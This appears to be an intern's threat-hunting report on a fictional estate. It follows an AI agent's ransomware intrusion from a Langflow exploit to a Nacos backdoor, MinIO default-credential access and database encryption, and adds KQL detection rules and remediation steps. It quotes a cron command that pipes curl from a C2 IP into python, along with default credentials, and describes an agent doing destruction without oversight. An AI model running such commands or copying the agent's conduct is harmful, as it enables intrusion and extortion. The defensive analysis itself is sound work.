### 🔧 KQL Query Used

```kql
Syslog
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId_CF =~ "jp-46-20260730"
| where ProcessName =~ "langflow" and SyslogMessage has "validate/code"
| extend src = extract("src=([0-9.]+)", 1, SyslogMessage)
| project TimeGenerated, src, SyslogMessage
```

```kql
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and model_response has "CVE"
| project TimeGenerated, model_response
```

### 🖼 Screenshot



### 🛡 Detection Recommendation

**Alert Rule:**
```
IF request path = /api/v1/validate/code
AND source is not localhost
THEN ALERT, High
```

**Hunting Tip:** The source IP is cheap for the attacker to rotate. The path is not.

**MITRE Reference:** [T1190](https://attack.mitre.org/techniques/T1190)

</details>

<details>
<summary>🚩 <strong>Flag 2: Spawned interpreter</strong> (<code>T1059.006</code>) 🔴 Critical</summary>

### 🎯 Objective
Run attacker code through the web service without an obvious script file.

### 📌 Finding
`python3.11` was spawned by `langflow run --host 0.0.0.0 --port 7860`. On an AI estate `python3.11` runs everywhere, so the binary name alone is useless; the parent-child lineage is what separates exploit-driven execution from routine work.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-lf-01` |
| **Timestamp** | 2026-07-30 19:20:04 UTC |
| **Process** | `python3.11`, PID 4471, inline base64 payload |
| **Parent Process** | `langflow run --host 0.0.0.0 --port 7860` |
| **Benign look-alikes** | Parent `systemd` (service start), `bash` (developer), `langflow-worker` (flows) |

### 💡 Why It Matters
Lineage survives a change of payload, CVE or C2. It is a TTP-tier indicator.

### 🔗 Attack Chain Position
Follows the exploit in Flag 1 and carries every later step.

### 🔧 KQL Query Used

```kql
LinuxProcess_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and DvcHostname =~ "ff-lf-01" and TargetProcessName =~ "python3.11"
| project TimeGenerated, TargetProcessName, TargetProcessId, ActingProcessCommandLine
```

**Testing the "fileless" claim.** A colleague argued the payload was fileless because its process event had no SHA256. I tested that against all process events instead of just the attacker's:

```kql
LinuxProcess_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| summarize total = count(), has_hash = countif(isnotempty(TargetProcessSHA256))
```

Result: 34 events in the window, 0 with a hash. The hash was also empty for `id`, `uname` and `pg_dump`, which are binaries on disk. The empty field is a collection gap, not evidence about this payload. The conclusion does not hold.

### 🖼 Screenshot



### 🛡 Detection Recommendation

See **DR-01** in Detection Rules Built.

**MITRE Reference:** [T1059.006](https://attack.mitre.org/techniques/T1059/006)

</details>

<details>
<summary>🚩 <strong>Flag 3: C2 beacon and cron persistence</strong> (<code>T1571</code>, <code>T1053.003</code>) 🟠 High</summary>

### 🎯 Objective
Keep a channel to the operator and survive a dead shell or a reboot.

### 📌 Finding
`ff-lf-01` called `45.131.66.106` on port 4444, the only external destination not on 443. A cron job under the `langflow` account every 30 minutes restarts it.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-lf-01` |
| **Destination** | `45.131.66.106:4444` |
| **Mechanism** | cron, every 30 minutes, account `langflow` |
| **Install command** | `echo '*/30 * * * * curl -s http://45.131.66.106:4444/b \| python3 -' \| crontab -` |
| **Install time** | 19:35:58 (shell history); first execution log 19:35:51 |

### 💡 Why It Matters
Cron survives reboots because it is a system service. The execution log in `LinuxSystem_CL` does not record the schedule at all; the interval came from the install command in shell history.

### 🔗 Attack Chain Position
Beacon comes first (about 19:23); the cron job is the safety net installed later at 19:35.

### 🔧 KQL Query Used

```kql
LinuxNetwork_CL
| where EventStartTime between (datetime("2026-07-30 19:20") .. datetime("2026-07-30 19:40"))
| where DvcHostname == "ff-lf-01" and DstIpAddr !startswith "10."
| distinct DstIpAddr, DstPortNumber
```

```kql
LinuxSystem_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and Facility =~ "cron"
| project TimeGenerated, EventOriginalMessage
```

### 🛡 Detection Recommendation

**Alert Rule:**
```
IF a service account runs crontab with piped input
OR a cron command contains curl or wget piped to an interpreter
OR a cron command contains a raw IP address
THEN ALERT, High
```

**Hunting Tip:** Pivot on a known IOC (the C2 IP) to find the entry fast, but build the content filter above so the next hunt does not depend on already knowing the IP.

**MITRE Reference:** [T1571](https://attack.mitre.org/techniques/T1571), [T1053.003](https://attack.mitre.org/techniques/T1053/003)

</details>

<details>
<summary>🚩 <strong>Flag 4: Credential dump and provider classification</strong> (<code>T1552</code>) 🔴 Critical</summary>

### 🎯 Objective
Convert one foothold into keys for the rest of the estate.

### 📌 Finding
`pg_dump` ran as `langflow` against the `variable` and `api_key` tables. The agent then sorted the stolen secrets into 8 provider families in one pass: four LLM (OpenAI, Anthropic, DeepSeek, Gemini) and four cloud (Alibaba, Aliyun, Tencent, Huawei). Database logins and wallet files were also classified, but they are secret categories, not providers.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-lf-01` |
| **Timestamp** | 19:25:07.772 UTC |
| **User** | `langflow` |
| **Command Line** | `pg_dump -h 127.0.0.1 -U langflow -d langflow -t variable -t api_key` |
| **Routine runs** | Account `backup`, output to `/backup/nightly` |

### 💡 Why It Matters
The tool name alone returns every nightly backup too. The account is the discriminator. A rule on `pg_dump` alone pages the analyst every night and hides this theft in the noise. Classifying everything in one call is also an agent fingerprint: a human stages credential theft over hours.

### 🔗 Attack Chain Position
Follows the C2 setup; its output feeds the lateral movement in Flags 5 and 6.

### 🔧 KQL Query Used

```kql
LinuxProcess_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 21:40:00))
| where TargetProcessName == "pg_dump"
| project TimeGenerated, TargetUsername, TargetProcessCommandLine
```

```kql
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and model_response has "keys" and model_response has "provider"
| project TimeGenerated, model_response
```

### 🛡 Detection Recommendation

See **DR-02** in Detection Rules Built.

**MITRE Reference:** [T1552](https://attack.mitre.org/techniques/T1552)

</details>

<details>
<summary>🚩 <strong>Flag 5: Second interpreter and internal sweep</strong> (<code>T1059.006</code>, <code>T1046</code>) 🟡 Medium</summary>

### 🎯 Objective
Find where the valuable data lives inside the estate.

### 📌 Finding
A second `python3.11` (PID 4491) started at 19:27, six minutes after PID 4471, and reached three internal services in three seconds: MinIO, MySQL and Nacos.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-lf-01` |
| **Process** | `python3.11`, PID 4491, parent an inline `python3 -c` interpreter |
| **Reached** | `10.4.0.20:9000` (MinIO), `10.4.0.30:3306` (MySQL), `10.4.0.40:8848` (Nacos) |

### 💡 Why It Matters
One process touching several internal services in seconds is a scan. Legitimate application traffic connects to one service at a time with human-scale gaps. The first interpreter handled access and C2; the second did the lateral work, which is why scoping by PID matters.

### 🔗 Attack Chain Position
Uses the credentials from Flag 4 and leads to the logins in Flag 6.

### 🔧 KQL Query Used

```kql
LinuxProcess_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and DvcHostname =~ "ff-lf-01" and TargetProcessName =~ "python3.11"
| project TimeGenerated, TargetProcessId, ActingProcessCommandLine
| sort by TimeGenerated asc
```

```kql
LinuxNetwork_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and ActingProcessId == 4491
| project TimeGenerated, DstIpAddr, DstPortNumber
| sort by TimeGenerated asc
```

### 🖼 Screenshots





### 🛡 Detection Recommendation

**Alert Rule:**
```
IF one process reaches 3 or more distinct internal hosts within 10 seconds
THEN ALERT, Medium
```

**MITRE Reference:** [T1046](https://attack.mitre.org/techniques/T1046)

</details>

<details>
<summary>🚩 <strong>Flag 6: MinIO default credentials and Terraform state</strong> (<code>T1078.001</code>, <code>T1552.001</code>) 🔴 Critical</summary>

### 🎯 Objective
Reach infrastructure secrets stored in object storage.

### 📌 Finding
MinIO accepted `minioadmin:minioadmin`. The attacker retrieved `credentials.json` from the `terraform-state` bucket. The agent expected JSON, got XML, adjusted its parser and refetched.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-minio-01` |
| **Timestamp** | 19:30:34 UTC |
| **Credential** | `minioadmin:minioadmin` (factory default) |
| **Object** | bucket `terraform-state`, object `credentials.json` |
| **Operation** | `GetObject` |

### 💡 Why It Matters
This is not an exploit, it is a valid-accounts technique: the default was never changed. Terraform state and service-account keys grant access far beyond this host.

### 🔗 Attack Chain Position
Follows the sweep in Flag 5. The agent moved on to Nacos next.

### 🔧 KQL Query Used

```kql
Syslog
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId_CF =~ "jp-46-20260730" and Computer =~ "ff-minio-01" and SyslogMessage has "GetObject"
| project TimeGenerated, SyslogMessage
```

```kql
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730" and (model_response has "minioadmin" or model_response has "MinIO")
| project TimeGenerated, model_response
```

### 🖼 Screenshot



### 🛡 Detection Recommendation

**Alert Rule:**
```
IF logon account is a known vendor default (minioadmin, admin, root with factory password)
THEN ALERT, High
```

**MITRE Reference:** [T1078.001](https://attack.mitre.org/techniques/T1078/001), [T1552.001](https://attack.mitre.org/techniques/T1552/001)

</details>

<details>
<summary>🚩 <strong>Flag 7: Nacos forged token and backdoor account</strong> (<code>T1078.001</code>, <code>T1136.001</code>) 🟠 High</summary>

### 🎯 Objective
Take admin control of the config server and leave a way back.

### 📌 Finding
At 19:34:36 the Nacos user-create request was rejected (403, blank password hash). The agent diagnosed the cause in its own log, recomputed the hash, and at 19:35:07 the audit log shows `svc_maint` created. 31 seconds, no human input in between.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-nacos-01` |
| **Rejected** | 19:34:36, `POST /nacos/v1/auth/users`, 403 "blank password hash rejected" |
| **Accepted** | 19:35:07 UTC, audit type `ADD_USER`, `pid=8801`, `uid=997`, `id=svc_maint`, `res=success` |
| **Executable** | `/opt/nacos/bin/nacos` |

### 💡 Why It Matters
The name `svc_maint` reads as routine service maintenance, which is exactly why a defender would scroll past it. The audit log proves the success from local telemetry, independent of the public report, which gives the gap but not the PID or UID. A UID under 1000 is the range normally reserved for daemons, which fits an account built to look like infrastructure.

### 🔗 Attack Chain Position
Uses the secrets from Flag 6 and sets up the database impact in Flag 9.

### 🔧 KQL Query Used

```kql
LinuxAudit_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId == "jp-46-20260730" and Computer == "ff-nacos-01" and AuditType == "ADD_USER"
| project TimeGenerated, EventOriginalMessage
```

### 🛡 Detection Recommendation

**Alert Rule:**
```
IF AuditType = ADD_USER
AND the creating executable is an application binary, not useradd or an admin tool
THEN ALERT, High
```

**MITRE Reference:** [T1136.001](https://attack.mitre.org/techniques/T1136/001)

</details>

<details>
<summary>🚩 <strong>Flag 8: Docker socket probe</strong> (<code>T1611</code>) 🟡 Medium</summary>

### 🎯 Objective
Check for a route from the container to the host.

### 📌 Finding
The runtime log records `GET /containers/json` over the docker.sock unix socket from `ff-lf-01`. It does not record the response. Which containers the attacker saw cannot be established.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-lf-01` |
| **Timestamp** | About 19:35:30 UTC |
| **Operation** | `GET /containers/json` via unix socket |
| **Missing** | `ContainerId`, `ImageName`, `ImageRef` empty on every event |

### 💡 Why It Matters
An unanswerable question is still a finding. The correct answer here is the telemetry gap, not a guess.

### 🔗 Attack Chain Position
A side probe during the Nacos phase. The agent noted the socket was reachable and moved on.

### 🔧 KQL Query Used

```kql
LinuxContainer_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId =~ "jp-46-20260730"
| project TimeGenerated, Computer, RuntimeService, Operation, ContainerId, ImageName
```

### 🛡 Detection Recommendation

Alert on any non-runtime process opening the docker socket, and log response bodies or container IDs so the next probe can be scoped.

**MITRE Reference:** [T1611](https://attack.mitre.org/techniques/T1611)

</details>

<details>
<summary>🚩 <strong>Flag 9: Encryption, destruction and ransom note</strong> (<code>T1486</code>, <code>T1485</code>) 🔴 Critical</summary>

### 🎯 Objective
Extort the victim and remove evidence.

### 📌 Finding
`AES_ENCRYPT` ran across 1,342 rows of `config_info`. `config_info` and `history` were then dropped, and a `README_RANSOM` table was written with a contact email and a Bitcoin address.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Host** | `ff-db-01` |
| **Timestamps** | 19:36:30 encrypt, 19:36:37 to 19:36:38 drops, 19:37:00 note |
| **Rows encrypted** | 1,342 (`config_info`) |
| **Tables dropped** | `config_info`, `history` |
| **Note** | Table `README_RANSOM`; wallet `3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy`; contact `e78393397@proton.me` |

### 💡 Why It Matters
The key was generated at runtime and never saved, so payment cannot restore the data. Only backups can. The wallet is the well-known Bitcoin documentation address, which supports the autonomy finding: the LLM reused a placeholder from its training data rather than generating a real wallet.

### 🔗 Attack Chain Position
Final step. Everything earlier, including admin access on Nacos, existed to reach this.

### 🔧 KQL Query Used

```kql
Syslog
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId_CF =~ "jp-46-20260730" and Computer =~ "ff-db-01"
| where SyslogMessage has "AES_ENCRYPT" or SyslogMessage has "DROP TABLE" or SyslogMessage has "README_RANSOM"
| project TimeGenerated, SyslogMessage
| order by TimeGenerated asc
```

### 🛡 Detection Recommendation

**Alert Rule:**
```
IF AES_ENCRYPT updates rows in a table
AND a DROP TABLE follows within minutes
AND the account is not the application's normal account for that table
THEN ALERT, Critical
```

**MITRE Reference:** [T1486](https://attack.mitre.org/techniques/T1486), [T1485](https://attack.mitre.org/techniques/T1485)

</details>

<details>
<summary>🚩 <strong>Flag 10: Human-tasked or autonomous?</strong> (AI agent behaviour) 🟠 High</summary>

### 🎯 Objective
Decide from telemetry whether a person drove the intrusion or an agent did.

### 📌 Finding
**Verdict: human-tasked.** A person set the objective once and everything after it ran on its own.

### 🔍 Evidence

| Field | Value |
|-------|-------|
| **Intruder session** | `jp-7f3c9a21`, actor `jadepuffer-agent` |
| **Single instruction** | "Gain access to the Flowforge estate, locate and encrypt the most business-critical datastore, and leave payment instructions." |
| **Estate session** | `fa-5d1caf68`, actor `flowforge-assistant`: summarising failed pipeline runs (benign) |
| **Self-correction** | 403 at 19:34:36, success at 19:35:07, diagnosis narrated between, no `user_input` |
| **Timing** | Chain runs about 17 minutes with no idle gap longer than a couple of minutes |

### 💡 Why It Matters
One human sentence at the start is tasking, not driving. If a person were at the wheel, `user_input` would repeat across the session. A human also would not read a 403, work out a blank hash, recompute a bcrypt hash and resubmit a multi-step payload in 31 seconds. "Human-driven" and fully "autonomous" are both wrong: there is exactly one human fingerprint.

### 🔗 Attack Chain Position
Explains the speed and shape of Flags 1 to 9.

### 🔧 KQL Query Used

```kql
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-07-30 19:20:00) .. datetime(2026-07-30 19:40:00))
| where RunId == "jp-46-20260730" and isnotempty(user_input)
| project TimeGenerated, actor, session_id, user_input
```

### 🖼 Screenshots


### 🛡 Detection Recommendation

Default-deny destructive tool calls (encrypt, drop) for any agent, with a human approval step. The guardrail here returned `allow` with "no policy matched".

**Reference:** OWASP Top 10 for LLM Applications, Excessive Agency.

</details>

---

## 🚨 Detection Gaps & Telemetry Gaps

### 🕳 Observed Detection Gaps

| Gap | Impact | Recommended Fix |
|-----|--------|----------------|
| Dump activity not alerted; a tool-name rule would fire nightly | High | Key on account identity (DR-02) |
| Subnet sweep (3 internal hosts in under 5 seconds) not alerted | Medium | Alert on one process reaching 3 or more distinct internal hosts within 10 seconds |
| Default-credential logon on MinIO not alerted | High | Alert on logons by known default account names |
| Alert queue shows detected times 12 or more minutes after the last action (19:48:57 to 19:49:52 against 19:37:00) | High | Check what "Detected" measures; shorten the rule schedule and run near real time |
| Guardrail logged `allow` / "no policy matched" for destructive calls | Critical | Default-deny on encrypt and drop tools; require approval |
| Internet-facing Langflow unpatched for a KEV-listed CVE | Critical | Patch SLA and exposure review |
| Docker socket reachable by a service account | High | Remove the mount, or use a socket proxy with an allowlist |

### 📉 Telemetry Gaps

| Question | Table checked | Why it cannot be answered | Log change needed |
|----------|---------------|---------------------------|-------------------|
| Which containers did the attacker see? | `LinuxContainer_CL` | Request logged, response not; `ContainerId` and `ImageName` are empty | Log response bodies or container IDs |
| Was the payload fileless? | `LinuxProcess_CL.TargetProcessSHA256` | Field empty on every event, including known on-disk binaries | Populate SHA256 in the collector; correlate with file creations in `LinuxFile_CL` |

---

## 🧪 Detection Rules Built

### Rule Summary

| Rule ID | Name | ATT&CK | Pyramid Tier | Severity | Status |
|---------|------|--------|--------------|----------|--------|
| DR-01 | Web service spawns inline interpreter | T1190, T1059.006 | TTP | High | Tested: attack replay and full-day baseline |
| DR-02 | `pg_dump` run by non-backup account | T1552 | TTP | High | Tested: attack replay and full-day baseline |

---

### DR-01: Web service spawns inline interpreter

| Field | Detail |
|-------|--------|
| **Purpose** | Catch a web or app service directly forking a scripting interpreter with an inline command or encoded payload. |
| **ATT&CK** | T1190, T1059.006 |
| **Data source** | `LinuxProcess_CL`: `ActingProcessCommandLine`, `TargetProcessName`, `TargetProcessCommandLine`, `DvcHostname` |
| **Linked flags** | Exploited endpoint; Spawned interpreter |
| **Why this discriminator** | Parent-child lineage survives a change of payload, CVE or C2. Hashes and IPs would not. |

**Logic:** IF the parent command line is a known web or app service AND the child is a scripting interpreter or shell AND the child runs inline code (`-c`, `-e`) or contains base64 THEN alert.

```kql
// DR-01 | explicit time interval is mandatory
let WebParents = dynamic(["langflow run", "uvicorn", "gunicorn", "nginx", "apache2", "php-fpm"]);
LinuxProcess_CL
| where todatetime(EventStartTime) between (datetime(2026-07-30 00:00:00) .. datetime(2026-07-31 00:00:00))
| where ActingProcessCommandLine has_any (WebParents)
| where TargetProcessName matches regex @"^(python[0-9.]*|perl|ruby|node|sh|bash|dash)$"
| where (TargetProcessCommandLine matches regex @"\s-[ce]\s") or (TargetProcessCommandLine has "base64")
| distinct EventStartTime, DvcHostname, ActingProcessCommandLine, TargetProcessName, TargetProcessId, TargetProcessCommandLine
| order by EventStartTime asc
```


**Validation (real results):**

| Test | Data used | Time range | Hits | True positives | False positives | Notes |
|------|-----------|------------|-----:|---------------:|----------------:|-------|
| Attack replay | `LinuxProcess_CL` | 2026-07-30 19:00 to 20:00 | 1 | 1 | 0 | PID 4471, 19:20:04.281, parent `langflow run`, child `python3 -c <base64 payload>` |
| Full-day baseline | `LinuxProcess_CL` | 2026-07-30 00:00 to 24:00 | 1 | 1 | 0 | Same single entry; no other matches |

**Tuning decisions:** Started with Langflow's own command line as the parent. Widen to other web servers only after a baseline check. Add an allowlist only for parents proven benign.
**Blind spots:** PID 4491 (the second interpreter, parent `python3 -c`) did not match, because its parent is not a web service. In-memory execution without a fork, or a script piped to stdin without `-c`, would also be missed. Only one day of data was available, so false-positive behaviour over longer periods is untested.
**Next iteration:** A second-stage rule: an inline interpreter spawning `id`, `uname`, `curl` or `pg_dump`, which is what PIDs 4471 and 4491 did next.

---

### DR-02: `pg_dump` run by non-backup account

| Field | Detail |
|-------|--------|
| **Purpose** | Catch database dumps run by any account other than the designated backup account. |
| **ATT&CK** | T1552 |
| **Data source** | `LinuxProcess_CL`: `TargetProcessName`, `TargetUsername`, `TargetProcessCommandLine` |
| **Linked flag** | Credential dump |
| **Why this discriminator** | The tool name alone returns every nightly run. The account separates the routine backups from the one hostile run. |

**Logic:** IF `pg_dump` starts AND the account is not `backup` THEN alert.

```kql
// DR-02 | explicit time interval is mandatory
// todatetime() is required on this platform: the time column is compared as text otherwise
LinuxProcess_CL
| where todatetime(EventStartTime) >= datetime(2026-07-30 00:00:00) and todatetime(EventStartTime) < datetime(2026-07-31 00:00:00)
| where TargetProcessName =~ "pg_dump"
| where TargetUsername !~ "backup"
| distinct EventStartTime, DvcHostname, TargetUsername, TargetProcessCommandLine, ActingProcessName
| order by EventStartTime asc
```


**Baseline helper** (counts runs per account so the suppression is measured, not assumed):

```kql
LinuxProcess_CL
| where todatetime(EventStartTime) >= datetime(2026-07-30 00:00:00) and todatetime(EventStartTime) < datetime(2026-07-31 00:00:00)
| where TargetProcessName =~ "pg_dump"
| summarize runs = dcount(TargetProcessId), firstSeen = min(todatetime(EventStartTime)), lastSeen = max(todatetime(EventStartTime)) by TargetUsername, DvcHostname
```

**Validation (real results):**

| Test | Data used | Time range | Hits | True positives | False positives | Notes |
|------|-----------|------------|-----:|---------------:|----------------:|-------|
| Attack replay | `LinuxProcess_CL` | 2026-07-30 00:00 to 24:00 | 1 | 1 | 0 | `langflow`, `ff-lf-01`, 19:25:07.772, `pg_dump -h 127.0.0.1 -U langflow -d langflow -t variable -t api_key`, parent python3.11 |
| Baseline noise | `LinuxProcess_CL` | 2026-07-30 00:00 to 24:00 | 26 suppressed | n/a | 0 | `backup` on `ff-db-01`: 26 runs, 08:03:08 to 20:09:41. `langflow` on `ff-lf-01`: 1 run |


**Tuning decisions:** Allowlist named DBA accounts only after confirming with the database owner. Consider requiring the output path to match `/backup/nightly` for the backup account.
**Blind spots:** An attacker running as `backup`, renaming the binary, or dumping with `psql` or `COPY` instead of `pg_dump`. One day of data only.
**Next iteration:** A rare-pair rule: the first time an account-and-tool pair appears in 14 days, which also covers other dump tools.

---

## 🧰 Remediation & Containment Checklist

### 🔴 Immediate Actions (0 to 4 hours)

- [ ] Isolate `ff-lf-01` from the network; preserve disk and memory before cleanup
- [ ] Block `64.20.53.230` and `45.131.66.106` (port 4444) at the perimeter and egress
- [ ] Rotate every key found in the `variable` and `api_key` tables (OpenAI, Anthropic, DeepSeek, Gemini, Alibaba, Aliyun, Tencent, Huawei) and all database logins
- [ ] Rotate everything referenced by `terraform-state/credentials.json` and review what it could reach
- [ ] Delete the `svc_maint` account on `ff-nacos-01` and invalidate all Nacos tokens
- [ ] Change `minioadmin` and disable the account if unused
- [ ] Notify legal and compliance to assess breach notification duties

### 🟠 Short Term (4 to 24 hours)

- [ ] Remove the `langflow` crontab entry and restrict who may edit crontabs
  - [ ] `*/30 * * * * curl -s http://45.131.66.106:4444/b | python3 -`
- [ ] Remove `/tmp/.lf/keys.sql` and `/tmp/.lf/creds.json` after preserving copies for evidence
- [ ] Replace the Nacos default JWT signing key
- [ ] Restore `config_info` and `history` from backup (the key was never saved, so there is no decryption path)
- [ ] Patch Langflow beyond CVE-2025-3248 or take it off the internet

### 🟡 Medium Term (1 to 7 days)

- [ ] Deploy DR-01 and DR-02 as scheduled analytics rules and test them once as scheduled queries
- [ ] Alert on service-account `crontab` edits, new accounts created by application binaries, and one-process multi-host sweeps
- [ ] Remove docker.sock mounts or place an allowlisting proxy in front
- [ ] Restrict egress from application servers to known destinations on 443
- [ ] Fix log coverage: SHA256 in process events, response bodies in container logs

### 🔵 Long Term (1 to 4 weeks)

- [ ] Enforce rotation of vendor defaults in the build pipeline
- [ ] Set a patch SLA for KEV-listed CVEs on internet-facing services
- [ ] Put a human approval step and default-deny policy in front of destructive agent tools
- [ ] Test backups by restoring them, and keep a copy the estate's accounts cannot delete
- [ ] Run a purple-team replay of this chain to confirm the new rules fire

---

## 🧾 Final Assessment

### Risk Conclusion

This was a complete extortion chain against a small estate, executed in about 17 minutes. The root causes were ordinary: an unpatched internet-facing service with a known flaw, factory-default credentials on two internal services, and secrets stored where a service account could read them. Nothing here needed advanced tooling; the speed came from automation.

Impact is high because the destroyed configuration data cannot be recovered through the attacker and the stolen credentials may reach cloud and AI provider accounts outside this estate. Whether data left the estate is not established by the telemetry reviewed. The attacker can return only if the cron job, the `svc_maint` account or the unchanged credentials remain, so the remediation list above is what closes that door.

### Evidence Quality Rating

| Evidence Type | Quality | Notes |
|--------------|---------|-------|
| Process execution (`LinuxProcess_CL`) | 🟢 High | Lineage and command lines complete; SHA256 never populated |
| Network (`LinuxNetwork_CL`) | 🟢 High | Ties connections to process IDs |
| Audit (`LinuxAudit_CL`) | 🟢 High | Proves the account creation with PID and UID |
| Syslog (HTTP, MinIO, MySQL) | 🟢 High | Request paths, object access and SQL statements |
| Cron (`LinuxSystem_CL`) | 🟡 Medium | Shows executions only; schedule came from shell history |
| Agent logs (`LLMAgentLogs_CL`) | 🟡 Medium | Rich, but it is the agent's own narration, so corroborated against audit and syslog |
| Container (`LinuxContainer_CL`) | 🔴 Low | Request logged, response and IDs missing |

### Confidence Assessment

| Finding | Confidence |
|---------|-----------|
| Initial access vector | 🟢 High: request, process and agent narration agree |
| Lateral movement path | 🟢 High: PID-scoped network events plus audit and syslog |
| Impact (encryption and destruction) | 🟢 High: SQL statements and ransom table logged |
| Human-tasked, not human-driven | 🟡 Medium to High: one `user_input`, 31-second self-correction |
| Data exfiltrated off the estate | 🔴 Not established |
| Container escape outcome | 🔴 Not established: response never logged |
| Attacker identity | 🔴 Unknown: contact email and placeholder wallet only |

---

## 🔧 What I'd Improve

### Improvement 1: Reading a blank hash as "no file" (linked to the Spawned interpreter flag)

| | |
|---|---|
| **1. What didn't work as well as it should** | I first read the empty SHA256 on the `python3.11` process as proof of fileless execution. Only when I counted across all 34 events in the window did I see that none had a hash, including `id`, `uname` and `pg_dump`, which are binaries on disk. |
| **2. Why that matters** | I would have reported a technique I had not proved, and a reader might stop looking for dropped files. The attacker did write `/tmp/.lf/keys.sql` and `/tmp/.lf/creds.json`. |
| **3. What I'd do next time** | Check that a field is populated for known-normal activity before reading meaning into emptiness. Then look for positive evidence (file creations in `LinuxFile_CL`, inline `-c` in the command line) and state in the report that the collector does not record hashes. |

> **The memory hook.** A blank on everything is a broken camera, not an empty room. `python3 -c` does run code inline, so "fileless" may still be true for the payload itself; the hash field just cannot show it either way.

---

## 📎 Analyst Notes

- Report structured for interview and portfolio review
- Every number is reproducible from the queries in each flag
- Techniques mapped to MITRE ATT&CK and MITRE ATLAS
- This is an internship exercise built on a public disclosure. The estate, hosts and data are fictional
- Source for the scenario: Sysdig's JADEPUFFER disclosure

### 📝 Lessons Learned

- **What worked well:** Pivoting between tables on shared keys (PID, host, run ID); reading raw fields (`tool_args`, `tool_result`, audit lines) in preference to the agent's narration; naming telemetry gaps instead of filling them.
- **New detections this hunt produced:** DR-01 (lineage) and DR-02 (account identity), both validated with one true positive and no false positives over the day available.
- **Log sources missing or insufficient:** Container response bodies; process SHA256.
- **What I'd improve:** see the entry above.

---

